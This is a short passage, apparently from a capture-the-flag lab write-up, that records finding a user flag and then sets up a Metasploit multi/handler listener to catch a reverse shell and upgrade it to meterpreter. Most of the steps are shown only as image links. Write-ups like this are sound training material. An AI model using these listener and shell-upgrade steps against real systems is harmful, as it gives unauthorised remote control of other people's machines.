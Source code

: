 found user flag in junior homedir

![alt text](imagesh33/image-14.png)


moving session from netcat to metasploit 

```
use exploit/multi/handler
set LHOST 10.10.14.230
set LPORT 6112
```

then running the payload again, now with port 6112

![alt text](imagesh33/image-10.png)

upgrading to meterpreter

![alt text](imagesh33/image-11.png)
